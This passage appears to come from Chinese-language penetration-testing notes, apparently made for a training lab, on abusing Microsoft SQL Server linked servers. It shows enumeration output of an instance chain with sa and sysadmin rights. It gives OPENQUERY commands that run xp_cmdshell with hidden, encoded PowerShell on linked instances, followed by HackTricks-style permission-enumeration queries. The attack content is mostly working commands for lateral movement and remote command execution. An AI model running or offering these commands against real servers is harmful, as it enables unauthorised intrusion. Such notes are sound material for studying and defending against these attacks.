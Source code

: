 Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       : {SQL01.ZEROPOINTSECURITY.LOCAL}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO, SQL01.ZEROPOINTSECURITY.LOCAL}
User        : sa
Links       : 
```

留意上面的实例链：```SRV-1 > SQL-1.CYBERBOTIC.IO > SQL01.ZEROPOINTSECURITY.LOCAL```

2. 执行系统shell

在```sql-1.cyberbotic.io```实例上执行系统shell

```
SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''' )
```

在```sql01.zeropointsecurity.local```实例上执行系统shell

```
SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select * from openquery("sql01.zeropointsecurity.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''' '')' )
```

# hacktricks里的技巧

# Get Permissions


## Show all different securables names
```
SELECT distinct class_desc FROM sys.fn_builtin_permissions(DEFAULT);
```
## Show all possible permissions in MSSQL
```
SELECT * FROM sys.fn_builtin_permissions(DEFAULT);
```

## Get all my permissions over securable type SERVER
```
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

## Get all my permissions over a database
```
USE <database>
SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
```

## Get members of the role "sysadmin"
```
Use master
EXEC sp_helpsrvrolemember 'sysadmin';
```

## Get if the current user is sysadmin
```